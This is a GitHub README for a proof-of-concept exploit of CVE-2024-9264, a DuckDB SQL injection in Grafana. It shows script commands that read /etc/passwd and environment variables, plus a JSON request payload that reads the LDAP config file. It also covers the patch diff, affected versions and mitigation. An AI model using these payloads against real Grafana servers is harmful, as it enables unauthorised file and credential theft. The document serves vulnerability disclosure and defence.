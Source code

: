 # CVE-2024-9264  
## Grafana Post-Auth DuckDB SQL Injection (File Read)

### Proof of Concept (PoC)

This PoC demonstrates the exploitation of the vulnerability using an authenticated user to perform a DuckDB SQL query and read an arbitrary file on the filesystem.

**Setup:**
Install the required dependencies via:
```bash
pip install -r requirements.txt
```

**Usage (File Read Example):**
```bash
python3 CVE-2024-9264.py -u user -p user  -f /etc/passwd  http://localhost:3000
```

You can also execute arbitrary DuckDB queries, such as calling `getenv` to retrieve environment variables:
```bash
python3 CVE-2024-9264.py -u user -p user -q "SELECT getenv('PATH')" http://localhost:3000
```

The list of utility DuckDB functions that can be exploited can be found [here](https://duckdb.org/docs/sql/functions/utility).

### Vulnerability Overview

[CVE-2024-9264](https://grafana.com/security/security-advisories/cve-2024-9264) is a DuckDB SQL injection vulnerability in Grafana's experimental SQL Expressions feature. Any authenticated user can execute arbitrary DuckDB SQL queries through modified expressions in Grafana dashboards.

**Affected Versions:**
- Grafana OSS and Enterprise versions 11.0.0 - 11.0.5, 11.1.0 - 11.1.6, and 11.2.0 - 11.2.1.

**Patched Versions:**
- 11.0.5+security-01 and higher

### Finding the Patch

Grafana released special versions to fix this vulnerability. To analyze the patch, the following commands can be used to compare the changes:

```bash
git checkout v11.0.5+security-01
git diff 0421a8911cfc05a46c516fd9d033a51e52e51afe 70316b3e1418c9054017047e63c1c96abb26f495
```

This reveals that the SQL Expressions feature was simply removed from the vulnerable versions.

```diff
+++ b/pkg/expr/sql/db.go
@@ -0,0 +1,26 @@
+package sql
+
+import (
+       "errors"
+
+       "github.com/grafana/grafana-plugin-sdk-go/data"
+)
+
+type DB struct {
+}
+
+func (db *DB) TablesList(rawSQL string) ([]string, error) {
+       return nil, errors.New("not implemented")
+}
+
+func (db *DB) RunCommands(commands []string) (string, error) {
+       return "", errors.New("not implemented")
+}
+
+func (db *DB) QueryFramesInto(name string, query string, frames []*data.Frame, f *data.Frame) error {
+       return errors.New("not implemented")
+}
+
+func NewInMemoryDB() *DB {
+       return &DB{}
+}
```

```diff
@@ -85,7 +84,7 @@ func (gr *SQLCommand) Execute(ctx context.Context, now time.Time, vars mathexp.V
 
        rsp := mathexp.Results{}
 
-       duckDB := duck.NewInMemoryDB()
+       duckDB := sql.NewInMemoryDB()
        var frame = &data.Frame{}
        err := duckDB.QueryFramesInto(gr.refID, gr.query, allFrames, frame);
        if err != nil {
```

The patch removes SQL Expressions entirely, preventing the possibility of exploitation.

### Exploiting the Vulnerability

1. **Launch Grafana**:
   Run Grafana with version 11.0.5:
   ```bash
   docker run --name=grafana -p 3000:3000 grafana/grafana-enterprise:11.0.5
   ```

2. **Modify an Expression**:
   Create a dashboard with an expression like "Math", intercept the request with Burp, and modify the `datasource` type from `math` to `sql`.

   Below is the minimal JSON required to perform a DuckDB SQL query to read an arbitrary file like `./conf/ldap.toml`:
   
   ```json
   {
     "queries": [
       {
         "refId": "B",
         "datasource": {
           "type": "__expr__",
           "uid": "__expr__",
           "name": "Expression"
         },
         "type": "sql",
         "hide": false,
         "expression": "SELECT content FROM read_blob(\"./conf/ldap.toml\")",
         "window": ""
       }
     ],
     "from": "1729313027261",
     "to": "1729334627261"
   }
   ```


### Likelihood of Exploitability

It's important to note that while this vulnerability is critical, its exploitability depends on whether the DuckDB binary is installed on the Grafana server. **By default, Grafana does not ship with DuckDB installed**, and there is no option to install it directly from the Grafana interface. 

**For this vulnerability to be exploitable, an administrator must have manually installed DuckDB and added it to the Grafana server's `$PATH`.** If DuckDB is not present, the SQL injection vulnerability cannot be leveraged, significantly reducing the likelihood of successful exploitation in default installations.

### Mitigation

Update Grafana to patched versions, and ensure that the DuckDB binary is not present in the `$PATH` if patching is delayed.

### Credits

This PoC uses the [ten](https://github.com/cfreal/ten) framework developed by [cfreal](https://github.com/cfreal).
